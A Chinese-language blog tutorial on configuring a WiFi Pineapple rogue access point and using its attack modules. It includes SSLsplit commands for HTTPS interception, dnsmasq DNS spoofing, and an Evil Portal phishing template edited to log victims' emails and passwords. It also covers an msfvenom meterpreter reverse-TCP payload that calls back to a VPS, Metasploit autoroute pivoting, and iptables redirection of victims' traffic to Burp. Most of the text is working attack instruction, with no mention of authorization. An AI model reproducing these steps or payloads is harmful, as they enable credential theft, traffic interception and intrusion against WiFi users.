# 0x00 前言
偶然发现实验室里有一个比较久远的设备，没有人使用就拿过来进行研究了。通过上网查询资料发现那些资料都太过久远并且都不看好这个工具。可我认为这样的工具仍然具有很好的隐蔽性，通过Meterpreter还能更近一步的利用，不仅仅是钓鱼，不仅仅是爆破。
# 0x02 Pineapple 介绍
Pineapple WiFi是一种便携式网络安全工具，由Hak5公司开发和销售。它被设计用于进行网络渗透测试和无线网络攻击的演示。Pineapple WiFi的工作原理是通过创建伪装的无线访问点来吸引附近的设备连接。一旦设备连接到Pineapple WiFi，它可以截获和分析设备之间的通信数据。
这使得安全专业人员能够检测网络漏洞、测试无线网络的安全性，并展示潜在的攻击方法。Pineapple WiFi具有友好的图形用户界面，使得配置和操作变得相对简单。它还支持多种功能，如WiFi网络嗅探、中间人攻击、无线网络钓鱼等。
我手上的是国产的，目前连卖家都找不到了，但系统的使用是一样的。
硬件介绍：

- cpu 为高通 SOC
- 内存RAM 为64MB DDR2，ROM 空间为16MB，ROM 可通过micro SD 卡扩展

接口介绍：

- LED = 系统指示灯
- POWER = 电源输入口
- RESET= 恢复出厂设置
- WAN = 网口（wan口，连接路由器的lan口）
- USB = usb口，可扩展网卡，u盘
- TF = TF插口，接TF卡(SD卡)扩展系统ROM


# 0x03 古老固件版本升级

1. 使用前请重置 pineapple，使用电源适配器通过 Micro usb 口给菠萝通电，电源灯会亮起，系统开始启动。然后通过一个小针头（牙签/卡针）按压重置按钮十秒钟。等指示灯熄灭后拔插电源使其重新启动。
2. 连接默认SSID为pineapple__xxx的WiFi，并访问 http://172.16.42.1:1471。你就可以进入到控制界面。


3. 在设置界面配置你的账号密码和ManagementAP的SSID以及密码。
4. 进入到主页面后，我们需要配置网络。你可以通过USB网络接口适配器进行连接，也可以通过WiFi Client Mode扫描周围WiFi后进行连接，需要提供密码。


## 更新固件
无法更新固件时可以修改源，买来的镜像里是供应商的源，现在已经关站了。
修改源获得地址记录文件
```
cp /etc/opkg/distfeeds.conf /etc/opkg/distfeeds.conf.bak
vi /etc/opkg/distfeeds.conf
```
换源：
```
src/gz chaos_calmer_base http://archive.openwrt.org/chaos_calmer/15.05.1/ar71xx/generic/packages/base
src/gz chaos_calmer_packages http://archive.openwrt.org/chaos_calmer/15.05.1/ar71xx/generic/packages/packages
src/gz chaos_calmer_management http://archive.openwrt.org/chaos_calmer/15.05.1/ar71xx/generic/packages/management
src/gz chaos_calmer_routing http://archive.openwrt.org/chaos_calmer/15.05.1/ar71xx/generic/packages/routing
```
修改 `/etc/opkg/customfeeds.conf `
```
# add your custom package feeds here
#
# src/gz example_feed_name http://www.example.com/path/to/files
# Old feeds from previous image
# Uncomment to reenable

# src/gz chaos_calmer_pineapple http://zy-link.xyz:8001/nano/packages
src/gz chaos_calmer_pineapple https://www.wifipineapple.com/nano/packages
```
编辑`/pineapple/modules/ModuleManager/api/module.php`
将`http://zy-link.xyz:8001/nano/downloads`替换成
`https://www.wifipineapple.com/downloads/nano/`
```
<?php namespace pineapple;

class Advanced extends SystemModule
{

    private function checkForUpgrade()
    {
        $context = stream_context_create(["ssl" => ["verify_peer" => true, "cafile" => "/etc/ssl/certs/cacert.pem"]]);
        $upgradeData = @file_get_contents("https://www.wifipineapple.com/downloads/nano/", false, $context);
      	...
        
    }

    private function downloadUpgrade()
    {
        ...
        $this->execBackground("wget 'https://www.wifipineapple.com/downloads/nano/{$version}' -O /tmp/upgrade.bin && touch /tmp/upgradeDownloaded");
        ...
    }
}
```
编辑`/pineapple/modules/ModuleManager/api/module.php`
将`http://zy-link.xyz:8001/nano/modules`替换成`https://www.wifipineapple.com/modules/nano/`
```
<?php namespace pineapple;

class ModuleManager extends SystemModule
{
    private function getAvailableModules()
    {
        $context = stream_context_create(['ssl' => ['verify_peer' => true, 'cafile' => '/etc/ssl/certs/cacert.pem']]);
        $moduleData = @file_get_contents('https://www.wifipineapple.com/modules/nano/', false, $context);
      	...
    }

    private function downloadModule()
    {
      	...
        $this->execBackground("wget 'https://www.wifipineapple.com/modules/nano/{$this->request->moduleName}.tar.gz' -O {$dest}{$this->request->moduleName}.tar.gz && touch /tmp/moduleDownloaded");
        ...
    }
}
```
修改完成后，从后台进入Advanced选项中，找到check For Upgrades进行固件更新。

如果显示 No upgrade found，则表示当前固件为最新，无需更新固件。如果有新的固件，则根据页 
面提示完成升级，升级完成后，会自动重启。**升级过程需要 10 分钟，升级过程中不能断电，否则会 **
**导致系统无法启动。**
# 0x04 初次配置
目前固件最新版本为2.7.0。进行完固件更新之后，重新连接PineappleWiFi需要先配置IP。
连接后修改WiFi配置，手动设置IP为`172.16.42.42`。默认网关为`172.16.42.1`。

修改后访问后台系统地址：`http://172.16.42.1:1471/#!/modules/Setup`

看到下面这个提示，拿小针戳一下重置的小按钮，快速戳一下就放开就可以进入到Setup界面了。

进入到设置页面，先进行密码设置。这个密码即是后台系统访问密码，也是SSH访问密码。机器默认开放`22、1471、53、80`端口。

在这里设置你的管理AP和开放AP。你可以选择隐藏它们。接入它们都可以访问后台。

过滤器用于选择禁止某些设备连接WIFI。**这里需要都选择黑名单的方式。否则后续无法连接WIFI。**

可以通过网线lan口上网也可以使用wlan连接已有WiFi。
进入 `http://172.16.42.1:1471/#!/modules/Networking`
找到WiFi Client Mode扫描后选择WiFi输入密码进行连接。

填入密码后点击连接。

如果没有桥接成功，检查以下几点： 

1. 要连接的 WiFi 的密码是否有输错，输错的话，可以重新连接一次 
2. 是不是距离太远，如果 wifi 热点跟菠萝相隔太远，也可能无法正常连接
# 0x05 登录管理
你可以使用Web访问后台进行管理。

也可以使用ssh 登录，ip 为 172.16.42.1 ，端口号为 22，用户名为 root，密码为之前设置的密码。

# 0x06 操作界面介绍
## Dashboard(仪表板)
仪表板提供了菠萝的一些简略统计信息，登陆页面浏览器统计，通知和公告。

- Landing Page Browser Stats 会显示常见的 web 浏览器信息。
- Notifications 将显示来自模块的通知。
- Bulletins 提取从 wifipineapple.com 最新的项目信息。


## Modules(模块下载)
WIFI Pineapple 联网之后可以下载模块插件来使用。很多玩法都是需要下载插件完成。如果需要全部部署安装需要拓展存储空间。根据页面提示完成插件安装，根据自己需求选择安装，没有必要全部安装。

## Filters(过滤器)
可以通过指定MAC地址禁止某个客户端连接（随即地址无法拦截，例如IOS的Private Address、Windows的随机地址）。指定SSID，禁止其他WIFI模组连接WiFi Pineapple。

## Logging（log 信息）
日志视图显示 PineAP 日志、系统日志、设备驱动日志和报告日志。

## Reporting（报告）
可以将一些 log 信息发送到指定的 email 或者保存在 SD 卡上。

## Networking（网络）
显示设置系统的网络信息。可以通过WiFi Client Mode连接WiFi网络。同时还可以修改HostName（主机名）。

## Configuration （配置）
Landing Page – 使能之后，会被用于强制认证界面。
Button Script 设置按下reset按钮五秒执行的命令，即重启机器。

## Advanced （高级）
此页面显示一些系统资源信息，USB 设备，文件系统列表，CSS 和固件升级。

## PineAP（菠萝 AP 套件）
PineAP 是一种有效的，模块化恶意接入点套件，旨在帮助用户来连接客户端，通过模仿客户端的首选网络来实现。

### Recon(侦察模式)
用于探测附加的wifi 名称，信道等跟 airodump-ng的wifi探测一样。使用前需要开启PineAP，这会导致Wlan接口占用。

### Clients（客户端）
如果在 PineAPple 里选择了 Allow Associations 选项，菠萝将允许客户端连接它。连接的客户端将显示各自的 MAC 地址，IP 地址，连接过的 SSID（如果 Logs Prebes 被选中），主机名。如果 SSID 或主机名是不可用，它将不会显示。

### Tracking（跟踪）
tracking 会持续的扫描指定的客户端设备并执行一个定制化的跟踪脚本。这个特性需要打开 PineAP里的 Log Probes 和 Log Associations。

# 0x07 常用模块
## ConnectedClients【客户管理】
显示当前连接的客户端设备的信息，提供DHCP服务。使用这个就不用开启PineAP了，并且有直接的黑名单管理。使用这个模块可以很直观的看到连接用户的IP和MAC地址。

## Dwall 【流量监听】
绵羊墙，可以显示 HTTP URLs, Cookies, 可实时展示客户端的图片。注意只是HTTP。操作十分简单，Enable开启模块，Start Listening 开始监听。
实际上，有点鸡肋，其实Cookies的获取是比较重要的，但是无法判断Cookie是哪个站点的...如果你熟悉PHP语法，你可以自定义修改一些内容。

## SSLsplit 【流量抓取】
捕捉HTTPS的流量，基于 iptables 的 net 规则表。原理是将内网中向外访问的流量转发到我们监听的端口，即中间人监听。安装完SSLsplit模块后需要安装对应的依赖，因为HTTPS通信需要证书，这里也需要生成证书。
证书生成的脚本：`/pineapple/modules/SSLsplit/scripts/generate_certificate.sh`
```
#!/bin/sh
#2015 - Whistle Master


[[ -f /tmp/SSLsplit_certificate.progress ]] && {
  exit 0
}

touch /tmp/SSLsplit_certificate.progress

# Generate the SSL certificate authority and key for SSLsplit to use
openssl genrsa -out /pineapple/modules/SSLsplit/cert/certificate.key 1024
openssl req -new -nodes -x509 -sha1 -out /pineapple/modules/SSLsplit/cert/certificate.crt -key /pineapple/modules/SSLsplit/cert/certificate.key -config /pineapple/modules/SSLsplit/cert/openssl.cnf -extensions v3_ca -subj '/O=SSLsplit Root CA/CN=SSLsplit Root CA/' -set_serial 0 -days 3650

rm /tmp/SSLsplit_certificate.progress
```
存放生成证书的目录：`/pineapple/modules/SSLsplit/cert`
都完成后可以通过Configuration看到 iptables 的配置表。

具体启动命令：
```shell
# 设置随机时间
export MYTIME=`date +%s`

# 退出所有sslsplit进程
killall sslsplit

# 启动IP转发
echo '1' > /proc/sys/net/ipv4/ip_forward

# 应用路由
iptables-save > /pineapple/modules/SSLsplit/rules/saved
iptables -X
iptables -F
iptables -t nat -F
iptables -P INPUT ACCEPT
iptables -P FORWARD ACCEPT
iptables -P OUTPUT ACCEPT

sh /pineapple/modules/SSLsplit/rules/iptables

iptables -t nat -A POSTROUTING -j MASQUERADE

# 开启监听
sslsplit -D -l /pineapple/modules/SSLsplit/connections.log -L /pineapple/modules/SSLsplit/log/output_${MYTIME}.log -k /pineapple/modules/SSLsplit/cert/certificate.key -c /pineapple/modules/SSLsplit/cert/certificate.crt ssl 0.0.0.0 8443 tcp 0.0.0.0 8080
```
开启后用户尝试登录

在日志中可以看到捕捉到的数据包信息，可以看到用户输入的账号密码。
开启后连接日志存放：`/pineapple/modules/SSLsplit/connections.log`
传输日志存放：`/pineapple/modules/SSLsplit/log/`

SSLSplit 的日志选项：
-l [FILE_PATH] 对于每组连接，只记录一列的摘要咨询。
-L [FILE_PATH] 对于每组连接，将完整的内容记录到 LogFile
-S [DIR_PATH] 将连接内容记录到指定目录，每一组连接会生成一个独立的 LogFile
## Occupineapple【广播WIFI】
广播用于欺骗的 WiFi SSID 热点。开启后无法使用wlan1口。实际上，如果离硬件过远的话也没有这种大面积WiFi选项的效果，可能是以为信号不够强。

## DNSspoof【DNS钓鱼】
用于DNS欺骗，连接WiFi的用户会自动使用172.16.42.1作为DNS服务器，修改Host记录即可造成DNS欺骗。HSTS可以防御。
有一些注意事项：

- **接口需要选桥接接口。**
- **Hosts必须要有换行。**

Landing Page 其实修改的是`/www/index.php`的内容。如果需要修改80端口服务，或者增加端口服务的话可以修改`/etc/nginx/nginx.conf`。

**更进一步**
Dnsspoof 不能修改 DNS 数据包，它只能发送另一个带有欺骗地址的准备好的数据包。但真正的数据包首先到达受害者，受害者的计算机只考虑它。系统默认使用了dnsmasq，我们可以直接修改来达到欺骗的目的。
`vi /etc/dnsmasq.hosts`
```
172.16.42.1 baidu.com *baidu.com

```
这个同样需要换行。
`vi /etc/dnsmasq.conf`
```
no-dhcp-interface=
server=8.8.8.8
no-hosts
addn-hosts=/etc/dnsmasq.hosts
```
修改完后执行命令`/etc/init.d/dnsmasq restart`重启dnsmasq
`vi /www/index.php`
我这里偷懒了，但直接跳转到我们的钓鱼网站或者其他站点也是一个不错的选择。
```
<?php header("Location: https://www.en0th.com");?>
```

## Evil Portal 【门户钓鱼】
恶意门户认证能够实现像现在的商业WiFi接入访问一样，提供一个由我们自定义的认证页面，引导客户端用户完成认证及跳转功能。

- Controls（控制）：启用模块和设置自动启动；
- Word Bench（创建工作目录）：包含门户页面的php文件等；
- White List（白名单）：不需要通过门户认证页面跳转的IP地址列表；
- Authorized Clients（认证客户端）：当前通过门户页面认证跳转过的IP地址列表；
- Live Preview（预览）：预览恶意门户页面。

门户和钓鱼网站一样都需要自建，网上有现成的模板。
[https://github.com/justahak5user/evilportals](https://github.com/justahak5user/evilportals)
下面是界面的演示：

 下载并将你想要的模板复制到`/root/portals`目录下面去。

你启动服务后，可以在预览中看到模板的加载情况。

**修复模板在Evil Portal 3.2版本中的问题**

1. **增加日志报告**

尽管模板已经十分便捷，但作者没有进行更新，原本存在的一些代码已经过时了。无法应用到最新版本中去。
`vi /root/portals/mcdonalds-login/MyPortal.php`
```
$target = isset($_POST['target']) ? $_POST['target'] : 'target';
$this->writeLog("[" . date('Y-m-d H:i:s') . "Z]\n" . "email: {$email}\npassword: {$pwd}\nhostname: {$hostname}\nmac: {$mac}\nip: {$ip}\nURL: {$target}\n\n");
$this->notify("[creds] {$email} - {$pwd}");
```
修改完后，我们就可以在后台获取到数据了。


2. **删除前端跳转**

`vi /root/portals/mcdonalds-login/index.php`



3. **跳转到指定地址**

本身逻辑是通过获取target来进行跳转，但实际上我使用下来并不好用，所以强制指定了一个链接进行验证后的跳转。
`vi /pineapple/modules/EvilPortal/includes/api/Portal.php`
```
protected function redirect()
{
  // header("Location: {$this->request->target}", true, 302);
  header("Location: https://www.baidu.com", true, 302);
}
```


4. **拦截转发 443 到 80**

尽管它在PHP脚本中有这一行，但是在开启Start On Boot使用的shell脚本没有添加这一条规则。
`/pineapple/modules/EvilPortal/includes/evilportal.sh`
```
..
start() {
    ...
    iptables -t nat -A PREROUTING -s 172.16.42.0/24 -p tcp --dport 443 -j DNAT --to-destination 172.16.42.1:80
    ...
}

stop() {
    ...
    iptables -t nat -D PREROUTING -s 172.16.42.0/24 -p tcp --dport 443 -j DNAT --to-destination 172.16.42.1:80
    ...
}
...
```
门户本质上是使用`iptables`进行拦截转发。它在启用服务时将所有IP进行拦截（不包含本机），验证通过后会添加一个规则放行IP流量。这个IP会记录在`/tmp/EVILPORTAL_CLIENTS.txt`文件中。
在关闭服务时会遍历这个文件，删除放行规则。
`iptables -t nat -D PREROUTING -s {IP} -j ACCEPT`
也就是说，它没有办法实现WiFi重连后进行再次校验，只能重启服务来让用户重新进行校验。但是你可以收到执行删除放行规则的命令来让让用户重新进行校验。
想要进一步了解可以查看这个文件的代码。
`/pineapple/modules/EvilPortal/api/module.php`

## Meterpreter【内网转发】
安装完后进入到操作界面，非常简单，填入Host和Port保存后启动即可。
将Pineapple连接至远程VPS，使用Metasploit进一步操作。

本质上就是调用命令`meterpreter`

然而`multi/handler`有很多中payload，我们先通过`cat /proc/cpuinfo`来获取框架信息，可以看到就是`mips`架构的。

后续我尝试了很多种payload但都无法连接上，不确定是什么原因。

直到我去官方论坛看到这样的说法。

在尝试一番之后发现有两个payload可以使用，分别是：

- payload/linux/mipsbe/shell_reverse_tcp
- payload/linux/mipsbe/meterpreter_reverse_tcp

shell的我不需要，主要是要使用meterpreter的功能。通过`msfvenom`生成执行文件。
```
msfvenom -p linux/mipsbe/meterpreter_reverse_tcp -f elf -o <NAME> LHOST=<VPSIP> LPORT=<VPSPORT>
```

这个文件有1.44MB，然而Shell的执行文件只有356字节，连1kb都没有。

上传到`/tmp`目录下，这个目录存储空间大。`nohup ./ruun5 >/dev/null 2>&1 &`这个命令可以保证在后台运行且不会输出日志（报错日志也不会有），也可以直接使用`nohup ./ruun5 &`。

进入`msfconsole`进行监听。`-j`是将任务放后台执行，可以通过`jobs`和`kill <id>`命令管理
```
use multi/handler
set payload linux/mipsbe/meterpreter_reverse_tcp
set LHOST <IP>
set LPORT <PORT>
exploit -j
```

执行之后就可以收到`session`了。

```
run get_local_subnets //获取当前机器的所有网段信息
run autoroute -s 192.168.0.0/24 //添加目标内网0网段的路由，CIDR格式添加
run autoroute -s 192.168.0.0 -n 255.255.255.0 //同样可以自行指定子网掩码进行添加
run autoroute -p //打印当前添加的路由表信息
background
```

添加完后，进行内网探测，我发现这个UDP探测比较好用。
```
use auxiliary/scanner/discovery/udp_probe
set RHOSTS <host(s)>
run
```

## Tcpdump
我们可以通过这个工具获取到指定网络接口的所有流量，类似于wireshark。
启动后如果出现这种问题，我们可以使用以下命令解决：
`ln -s /usr/lib/libpcap.so.1 /usr/lib/libpcap.so.0.8`


# 0x08 探索更多
使用 burp 进行 HTTP/HTTPS 抓包监听。首先先确认我们 Hacker 机器的 IP，即 burp 监听的 IP。

使用SSH连接Pineapple，后执行以下命令。本质上和SSLsplit一样都是通过IPtables进行流量转发。
```shell
echo '1' > /proc/sys/net/ipv4/ip_forward
iptables-save > /root/saved
iptables -X
iptables -F
iptables -t net -F
iptables -t nat -X
iptables -t mangle -F
iptables -t mangle -X
iptables -P INPUT ACCEPT
iptables -P FORWARD ACCEPT
iptables -P OUTPUT ACCEPT
iptables -t nat -A PREROUTING -p tcp --dport 80 ! -s 172.16.42.42 -j DNAT --to-destination 172.16.42.42:8080
iptables -t nat -A PREROUTING -p tcp --dport 443 ! -s 172.16.42.42 -j DNAT --to-destination 172.16.42.42:8080
iptables -t nat -A POSTROUTING -j MASQUERADE
```
其中`iptables -t nat -A POSTROUTING -j MASQUERADE`可以在NAT表的POSTROUTING链中添加一条规则，实现源地址伪装，将数据包的源地址改为发送数据包的网络接口的IP地址，以便响应数据包返回时能够正确路由回去。

注意**需要把支持隐形代理打开**

开启后即可抓到流量包。

还原 Iptables 规则：
```shell
iptables -X
iptables -F
iptables -t nat -F
iptables -t nat -X
iptables -t mangle -F
iptables -t mangle -X
iptables -P INPUT ACCEPT
iptables -P FORWARD ACCEPT
iptables -P OUTPUT ACCEPT
iptables-restore < /root/saved
```
# 0x09 常见问题
很多问题可以通过[官方论坛](https://forums.hak5.org/)查找到。
## 忘记密码
如果忘记登录密码或者配置错误导致系统无法正常使用，可以恢复出厂设置，方法为在开机状态下，按住 RESET 按键 10 秒以上，然后松开，系统会恢复出厂设置，并自动重启。除此之外一些毛病也可以通过重置来完成。例如wlan1口找不到等。
## 安装其他软件包
菠萝系统是基于 openwrt，所以 openwrt 的所有软件包（几千个）都可以安装使用。安装软件包的工 
具为 opkg 命令。由于内部 ROM 只有 16M，所以安装软件包需要先挂载 U 盘，然后将软件包安装在 
U 盘上。 
比如装一个 tcpdump 
```
opkg update #更新软件包列表 
opkg install -d sd tcpdump 
```
查看所有软件包的列表，可以执行： 
`opkg list`
安装在 U 盘中的软件包，在系统恢复出厂设置或者固件升级之后，都不会丢失，可以继续使用，不用 
重新安装。
## 访问不到后台
检查是否连接上WiFi。
检查是否设置了DHCP，如果是，那么请手动配置。
检查你是否使用了代理，如果使用了请关闭代理，使用直链模式。
# 0x10 总结
通过上面使用的模块WiFi网络嗅探、中间人攻击、无线网络钓鱼都可以实现了。本质上就是别人连接到了你的路由器，那么作为一个网络管理员你可以做哪些事情。你甚至可以在这个网络内使用MSF主动攻击别人。我认为这个是一个很好的测试工具，我期待熟悉这一切的人有进一步的开发利用。
# 0x11 参考资料
[WI-FI渗透利器Pineapple Nano初探](https://www.freebuf.com/sectool/196358.html)
[WiFiPineapple-用户手册-V1.5.pdf](http://67.230.160.34:8080/WiFiPineapple-%E7%94%A8%E6%88%B7%E6%89%8B%E5%86%8C-V1.5.pdf)
[利用msf自带的route模块穿透目标内网](https://pingmaoer.github.io/2020/05/09/%E5%88%A9%E7%94%A8msf%E8%87%AA%E5%B8%A6%E7%9A%84route%E6%A8%A1%E5%9D%97%E7%A9%BF%E9%80%8F%E7%9B%AE%E6%A0%87%E5%86%85%E7%BD%91/)
[基于MSF的内网存活主机探测](https://www.mi1k7ea.com/2021/02/24/%E5%9F%BA%E4%BA%8EMSF%E7%9A%84%E5%86%85%E7%BD%91%E5%AD%98%E6%B4%BB%E4%B8%BB%E6%9C%BA%E6%8E%A2%E6%B5%8B/)
[Meterpreter模块问题](https://forums-hak5-org.translate.goog/topic/55676-meterpreter-module-issue/?_x_tr_sl=auto&_x_tr_tl=zh-CN&_x_tr_hl=zh-CN&_x_tr_pto=wapp#comment-342589)


